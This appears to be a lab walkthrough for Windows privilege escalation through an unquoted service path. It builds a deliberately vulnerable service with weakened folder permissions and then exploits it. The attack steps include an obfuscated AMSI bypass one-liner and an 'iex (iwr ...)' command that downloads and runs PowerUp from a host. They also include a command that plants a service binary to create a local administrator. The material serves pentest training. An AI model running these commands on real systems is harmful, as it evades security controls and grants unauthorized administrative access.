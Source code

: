 ```yaml
---
description: >-
  We will create a service with a Unquoted Service Path to escalate privileges
  from a low privileges user account to SYSTEM.
---
```


# Unqouted Service Path

## Configuring

1. Login to `WS01` as the `Administrator` user with password `Welcome01!`.
2. Start PowerShell as administrator and run the following commands to create a service:

* Name = `Service`
* Executable path = `C:\Program Files\bin folder\program\bin x64\Service.exe`
* Start = `auto`

```
sc.exe create "Service" binpath= "C:\Program Files\bin folder\program\bin x64\Service.exe" start= auto
```

![](<../../../.gitbook/assets/image (11) (1) (1).png>)

3\. Run the following command to create the folders for the service:

```
mkdir "C:\Program Files\bin folder\program\bin x64"
```

![](<../../../.gitbook/assets/image (10) (1) (2) (1).png>)

4\. Run icacls to check the current permissions on the directories with a space in it:

```
icacls.exe "C:\Program Files\bin folder"
icacls.exe "C:\Program Files\bin folder\program\bin x64"
```

![](<../../../.gitbook/assets/image (15) (2).png>)

Currently the low privileged users can't create any files in the directories with a space. BUILTIN\Users has (RX) privileges. Which is **RX** (read and execute access). For more information about the icacls access rights check out [this SuperUser](https://superuser.com/questions/322423/explain-the-output-of-icacls-exe-line-by-line-item-by-item) post.

5\. Run icacls to give the `BUILTIN\Users` write permissions on `C:\Program Files\bin folder\program`.

```
icacls.exe "C:\Program Files\bin folder\program" /grant BUILTIN\Users:W
```

![](<../../../.gitbook/assets/image (8) (1) (1) (1).png>)

6\. Run icacls again the check the permissions on the directory:

```
icacls.exe "C:\Program Files\bin folder\program"
```

![](<../../../.gitbook/assets/image (3) (1) (1) (1).png>)

## Attacking

### How it works

When a service exists whose executable path contains spaces and it isn't enclosed within quotes it could be used to run an executable of our choice. This is because if the service is not enclosed within quotes and it has spaces, it would handle the space as a break and pass the rest of the service path as an argument.

If the filename is a long string of text which contains spaces, and is not enclosed within quotation marks, the filename will be executed in the order from left to right until the space is reached and will append `.exe` at the end of this spaced path. For example, consider we have the following path:

`C:\Program Files\A Folder\B Folder\C Folder\Program.exe`

Windows will try to execute the following:

1. `C:\Program Files\A.exe`
2. `C:\Program Files\A Folder\B.exe`
3. `C:\Program Files\A Folder\B Folder\C.exe`
4. `C:\Program Files\A Folder\B Folder\C Folder\Program.exe`

### Tools

* Icacls.exe
* [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

### Executing the attack

#### Powerup

1. Download PowerUp on your attacking machine and host it on a webserver

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
python3 -M http.server 8090
```

![](<../../../.gitbook/assets/image (43) (1) (1) (1) (1).png>)

2\. Login on `WS01` with the user `John` and the password `Welcome2022!.`

```
evil-winrm -i 10.0.0.128 -u john -p 'Welcome2022!'
```

3\. Open Powershell, execute a amsi bypass such ass the one below and download PowerUp into memory with `iex` and `iwr` (`Invoke-Expression` and `Invoke-WebRequest`)

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
iex (iwr http://192.168.248.2:8090/PowerUp.ps1 -usebasicparsing)
```

![](<../../../.gitbook/assets/image (2) (1) (1).png>)

4\. Execute `Invoke-AllChecks` to run all the checks from `PowerUp`.

![](<../../../.gitbook/assets/image (23) (1) (1) (1).png>)

5\. The output tells us there is a service with the name `Service` and it has a **unqouted** service path (`C:\Program Files\bin folder\program\bin x64\service.exe`).

6\. To check if we can write a binary in one of the folders check the permissions the folders before the one with a space in it. Since we need to write the binaries `C:\Program Files\bin.exe` or `C:\Program Files\bin folder\program\bin.exe`.

```
icacls.exe "C:\Program Files"
icacls.exe "C:\Program Files\bin folder\program"
```

We have no write permissions in `C:\Program Files`:

![](<../../../.gitbook/assets/image (52) (1) (1) (1) (1) (1).png>)

But we do have write permissions in `C:\Program Files\bin folder\program`.

![](<../../../.gitbook/assets/image (20) (1).png>)

7\. To abuse this run the following command from PowerUp, which will create a executable `bin.exe` in the path `C:\Program Files\bin folder\program` which will add a new local administrator.

```
Write-ServiceBinary -ServiceName 'Service' -ServicePath 'C:\Program Files\bin folder\program\bin.exe' -Username 'privesc' -Password "Welcome2022!" 
```

![](<../../../.gitbook/assets/image (22) (1) (1).png>)

8\. Our current user can't start the service, which means we should restart the machine and check if the user `privesc` is created.

![](<../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (9) (1) (1) (1) (1).png>)

9\. Start a new PowerShell session as Administrator and fill in the credentials `privesc:Welcome2022!`.

![](<../../../.gitbook/assets/image (47) (1) (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (39) (1) (1) (1) (1).png>)

#### Cleanup

Remove the user privesc and the binary

```
Remove-Item C:\Program Files\bin folder\program\bin.exe
net user privesc /del
```

## Defending

### Recommendations

* Periodically check for vulnerable services and directory permissions.

### Detection



## References

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}

{% embed url="https://superuser.com/questions/322423/explain-the-output-of-icacls-exe-line-by-line-item-by-item" %}

{% embed url="https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1" %}

